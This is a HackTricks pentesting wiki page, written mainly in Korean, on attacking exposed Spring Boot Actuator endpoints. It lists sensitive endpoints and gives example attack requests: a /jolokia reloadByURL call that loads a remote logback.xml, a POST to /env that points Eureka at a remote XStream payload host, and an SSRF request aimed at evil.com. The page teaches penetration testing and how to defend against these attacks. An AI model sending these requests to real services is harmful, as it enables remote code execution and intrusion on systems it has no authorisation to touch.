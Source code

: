 # Spring Actuators

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators는 `/health`, `/trace`, `/beans`, `/env` 등의 엔드포인트를 등록합니다. 1에서 1.4 버전까지는 이러한 엔드포인트에 인증 없이 접근할 수 있습니다. 1.5 버전부터는 기본적으로 `/health`와 `/info`만 비민감하지만, 개발자들이 종종 이 보안을 비활성화합니다.
* 특정 Actuator 엔드포인트는 민감한 데이터를 노출하거나 해로운 작업을 허용할 수 있습니다:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, `/heapdump`.
* Spring Boot 1.x에서는 액추에이터가 루트 URL 아래에 등록되지만, 2.x에서는 `/actuator/` 기본 경로 아래에 있습니다.

### **Exploitation Techniques:**

1. **'/jolokia'를 통한 원격 코드 실행**:
* `/jolokia` 액추에이터 엔드포인트는 Jolokia 라이브러리를 노출하여 MBeans에 대한 HTTP 접근을 허용합니다.
* `reloadByURL` 작업은 외부 URL에서 로깅 구성을 다시 로드하도록 악용될 수 있으며, 이는 블라인드 XXE 또는 조작된 XML 구성을 통한 원격 코드 실행으로 이어질 수 있습니다.
* 예시 악용 URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **'/env'를 통한 구성 수정**:
* Spring Cloud 라이브러리가 존재하는 경우, `/env` 엔드포인트는 환경 속성을 수정할 수 있습니다.
* 속성은 취약점을 악용하기 위해 조작될 수 있으며, 예를 들어 Eureka serviceURL의 XStream 역직렬화 취약점이 있습니다.
* 예시 악용 POST 요청:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **기타 유용한 설정**:
* `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, `spring.datasource.tomcat.max-active`와 같은 속성은 SQL 인젝션이나 데이터베이스 연결 문자열 변경과 같은 다양한 악용을 위해 조작될 수 있습니다.

### **Additional Information:**

* 기본 액추에이터의 포괄적인 목록은 [여기](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt)에서 확인할 수 있습니다.
* Spring Boot 2.x의 `/env` 엔드포인트는 속성 수정을 위해 JSON 형식을 사용하지만, 일반적인 개념은 동일합니다.

### **Related Topics:**

1. **Env + H2 RCE**:
* `/env` 엔드포인트와 H2 데이터베이스의 조합을 악용하는 방법에 대한 자세한 내용은 [여기](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)에서 확인할 수 있습니다.
2. **잘못된 경로 이름 해석을 통한 Spring Boot의 SSRF**:
* Spring 프레임워크의 매트릭스 매개변수(`;`) 처리 방식은 서버 측 요청 위조(SSRF)를 악용할 수 있습니다.
* 예시 악용 요청:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
